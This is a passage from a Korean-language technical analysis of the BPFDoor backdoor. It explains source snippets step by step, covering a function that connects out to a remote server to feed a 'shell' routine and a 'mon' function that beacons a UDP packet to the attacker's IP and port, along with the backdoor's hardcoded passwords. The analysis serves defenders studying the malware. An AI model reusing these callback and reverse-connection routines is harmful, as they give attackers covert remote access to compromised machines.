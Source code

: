     - `AF_INET`: IPv4 주소 패밀리을 사용
    - `SOCK_STREAM`: TCP(스트림 지향) 소켓 타입
    - `0`: 기본 프로토콜(TCP의 경우 `IPPROTO_TCP`) 사용

4. **주소 패밀리 및 포트 설정**

5. **연결 시도**

    ```c
    if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(struct sockaddr)) == -1 ) {
        close(sock);
        return -1;
    }
    return sock;
    ```

    - 생성된 소켓 `socket`을 사용하여 `serv_addr`에 지정된 원격 서버에 연결을 시도한다.
    - 연결 시도에 실패하면 소켓을 닫고 `-1`을 반환, 연결에 성공하면 연결이 설정된 소켓의 파일 디르크립터인 `sock`을 반환한다. 이 소켓은 이후 `shell` 함수를 통해 통신하는 데에 사용된다.

<br>

### (주요 함수 분석) mon

- 패스워드가 불일치할 때(`socket`, `justforfun` 모두 아닌 경우) 호출되는 함수로, 공격자의 IP 주소와 공격자가 정한 port로 데이터 `1`을 전송하는 함수이다. BPFDoor 연결이 정상적으로 되었는지를 확인할 수 있는 기능을 수행한다.

<br>

1. **함수 시그니처**

    ```c
    int mon(in_addr_t ip, unsigned short port)
    ```

    - `ip`: 소켓을 통해 데이터를 전달할 ip 주소를 받는 매개변수. 호출되는 부분에서 **공격자의 IP**가 인자로 전달된다.
    - `port`: 소켓을 통해 전달할 주소의 port를 받는 매개변수. 호출되는 부분에서 **공격자가 매직 패킷으로 전달한 port 번호**가 인자로 전달된다.

2. **소켓 생성**

    ```c
    if ((sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)) < -1) {
            return -1;
    }
    ```

    - 다음 인자들을 전달하여 소켓을 생성하여 `sock` 변수에 저장한다.
        - `AF_INET` : IPv4 주소를 사용
        - `SOCK_DGRAM` : 비연결 지향형 소켓
        - `IPPROTO_UDP` : UDP를 기반으로 하는 소켓을 생성(비연결 지향형 소켓)

3. **소켓 연결 정보 구조체 설정**

4. **소켓으로 데이터 전송**

    ```c
    if ((s_len = sendto(sock, "1", 1, 0, (struct sockaddr *)&remote, sizeof(struct sockaddr))) < 0) {
    		    close(sock);
    		    return -1;
    }
    ```
